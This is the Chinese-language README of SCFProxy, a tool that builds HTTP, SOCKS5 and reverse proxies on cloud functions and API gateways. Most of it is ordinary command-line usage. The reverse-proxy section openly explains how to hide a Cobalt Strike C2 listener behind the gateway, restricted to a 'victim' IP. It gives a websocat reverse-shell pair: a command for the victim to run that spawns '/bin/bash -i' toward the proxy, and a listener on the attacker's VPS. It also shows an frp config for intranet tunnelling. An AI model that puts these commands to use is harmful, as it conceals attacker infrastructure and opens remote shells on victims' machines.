



# SCFProxy
scfproxy 是一个基于云服务商提供的云函数及 API 网关功能实现多种代理的工具。

# 安装
前往 [release](https://github.com/shimmeris/SCFProxy/releases/) 页面下载对应系统压缩包即可。如仍需使用 Python 旧版，请切换至 [Python](https://github.com/shimmeris/SCFProxy/tree/Python) 分支

# 使用指南
## 配置凭证
首次运行 `scfproxy` 会在 `~/.config/scfproxy` 目录生成 `sdk.toml` 配置文件，用于配置云厂商的 AccessKey/SecretKey。

之后运行 `deploy/clear` 命令都将默认读取此文件，也可通过 `-c config` 参数指定。 

##  List
`scfproxy list` 接受 `provider`, `region`, `http`, `socks`, `reverse` 五种参数。

`provider` 参数列出目前支持的云厂商，可通过 `-m module` 参数指定模块列出支持特定代理的厂商。

`region` 参数用于列出云厂商可部署的区域，需使用 `-p providers` 指定需要查看的云厂商

`http`, `socks`, `reverse` 参数用于列出目前已经部署的代理

## HTTP 代理
### 部署
```shell
scfproxy deploy http -p provider_list -r region_list
```
`provider_list` 与 `region_list` 传入的参数列表以 `,` 分隔。

`region_list` 支持如下 4 种形式（在所有 `deploy` 及 `clear` 命令上都支持）

* `*` 表示所有区域
* `area-*` 表示该 area 区域支持的所有地区
* `are-num` 表示该 area 区域支持的前 `num` 个地区(代码硬编码顺序返回)
* 标准形式，即云厂商所提供的标准 region 形式

对于提供多个 `provider` 的情况下，将对每个 `provider` 进行上述 `region` 形式的解析与查找，不存在的 `region` 将被忽略

例子：
```shell
scfproxy deploy http -p alibaba,tencent -r ap-1,eu-*,cn-shanghai
```

通过 `scfproxy list -p alibaba,tencent` 可以查看到所有的 region，上面这条命令的执行结果为
1. 在 `alibaba` 上部署 `ap-northeast-1`, `eu-central-1`, ` eu-west-1`, `cn-shanghai` 区域的 http 代理
2. 在 `tencent` 上部署 `ap-beijing` 区域的 http 代理

### 运行
```shell
scfproxy http -l port [-c cert_path] [-k key_path]
```
首次运行会在 `~/.confg/scfproxy/cert` 目录生成 `scfproxy.cer` 及 `scfproxy.key` 证书，需要将其导入系统证书并信任才可以代理 https 请求。

### 清理
```shell
scfproxy clear http -p provider_list -r region_list [--completely]
```

清理功能默认只会删除触发器，如需同时删除函数，需添加 `-e/--completely` 参数

## SOCKS5 代理
### 部署
```shell
scfproxy deploy socks -p provider_list -r region_list -a address [-k key] --auth [user:pass]
```
`-a address` 用于指定云函数回连的 vps 地址

`-k key` 用于连接后进行验证

`--auth [user:pass]` 用于指定 socks 认证信息，默认无认证

### 运行
```shell
scfproxy socks -l socks_port -s scf_port -k key
```
`-l socks_port` 监听 socks_port，等待用户的 socks5 连接

`-s scf_port` 监听 scf_port，等待来自云函数的连接，需要部署命令中 `address` 参数的端口一致

`-k key` 用于验证，需与部署命令中的 `key` 对应


### 清理
```shell
scfproxy clear socks -p provider_list -r region_list [--completely]
```

因为 `socks` 代理创建的为 1m 的定时触发器，且函数超时时间较长为避免不必要的浪费，建议在监听到来自云函数的连接后清理触发器，在使用完毕后使用 `-e` 参数彻底清理函数。

## 反向代理
### 部署
```shell
scfproxy deploy reverse -p provider_list -r region_list -o origin [--ip ip_list]
```

`-o origin ` 用于指定需要用于反向代理的回源地址，可接受 HTTP 及 Websocket 协议。

`--ip ip_list` 用于限制访问来源，只有 `ip_list` 中的 ip 才能访问部署返回的反向代理网关地址。

### 使用场景
基于反向代理可有如下使用方法，

#### C2 隐藏
以 cobaltstrike 为例，只需将 api 的域名填入 listener 的 host

```shell
scfproxy deploy reverse ... -o http://vps --ip victim
```




#### 反弹 shell 地址隐藏
借助 [websocat](https://github.com/vi/websocat) 工具可实现反弹 shell 的功能。

```shell
scfproxy deploy reverse ... -o ws://vps --ip victim
```

受害者端执行：
```shell
websocat ws://reverse_proxy_address  sh-c:'/bin/bash -i 2>&1' --binary -v --compress-zlib
```

攻击者 vps 执行：
```shell
websocat ws-l:0.0.0.0:port - --binary -E --uncompress-zlib
```

效果如图：


#### 内网穿透地址隐藏
该使用场景需要支持 websocket 协议的内网穿透软件。

```shell
scfproxy deploy reverse ... -o ws://vps --ip victim
```

以 frp 代理 SOCKS 为例，客户端配置：
```ini
[common]
server_addr = reverse_proxy_domain
server_port = 80
tls_enable = true 
protocol = websocket

[plugin_sock5]
type = tcp
remote_port = 8080
plugin = socks5
use_encryption = true
use_compression = true
```
效果如图


### 清理
```shell
scfproxy clear http -p provider_list -r region_list -o origin
```
与 HTTP 及 SOCKS 代理不同，反向代理没有 `--completely` 参数，但需要指定 `origin` 参数用于定位需要删除的服务

# 支持厂商
* **阿里云**：不支持反向代理
* **腾讯云**：部署大陆外地区速度极慢，目前仅支持大陆地区


# 交流群
该项目仍处于测试阶段，可能存在一些 bug，欢迎提交 issue 或者进入微信群交流。


# TODO
- [ ] 优化代码
- [ ] 美化输出
- [ ] 优化 socks 功能
- [ ] 增加华为云，AWS，GCP 等其他云厂商